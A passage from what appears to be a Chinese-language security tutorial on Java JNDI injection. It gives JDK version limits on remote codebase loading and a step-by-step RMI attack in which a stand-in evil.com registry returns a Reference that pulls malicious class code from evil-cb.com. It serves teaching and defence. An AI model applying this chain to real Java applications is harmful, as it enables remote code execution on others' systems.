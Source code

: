 针对以上特性，攻击者可能会找到一些特殊场景，利用两者的差异来执行恶意代码。

## JNDI注入

### 前提条件&JDK防御

要想成功利用JNDI注入漏洞，重要的前提就是当前Java环境的JDK版本，而JNDI注入中不同的攻击向量和利用方式所被限制的版本号都有点不一样。

这里将所有不同版本JDK的防御都列出来：

- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。
- JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。
- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

因此，我们在进行JNDI注入之前，必须知道当前环境JDK版本这一前提条件，只有JDK版本在可利用的范围内才满足我们进行JNDI注入的前提条件。

## RMI表攻击客户端

**将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行**。

![jndi7](./main.assets/jndi7.png)

1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 `rmi://evil.com:1099/refObj`；
2. 原先配置好的上下文环境 `rmi://localhost:1099` 会因为动态环境转换而被指向 `rmi://evil.com:1099/`；
3. 应用去 `rmi://evil.com:1099` 请求绑定对象 `refObj`，攻击者事先准备好的 RMI 服务会返回与名称 `refObj`想绑定的 ReferenceWrapper 对象（`Reference("EvilObject", "EvilObject", "http://evil-cb.com/")`）；
4. 应用获取到 `ReferenceWrapper` 对象开始从本地 `CLASSPATH` 中搜索 `EvilObject` 类，如果不存在则会从 `http://evil-cb.com/` 上去尝试获取 `EvilObject.class`，即动态的去获取 `http://evil-cb.com/EvilObject.class`；
5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 `EvilObject.class`；
6. 应用开始调用 `EvilObject` 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行；
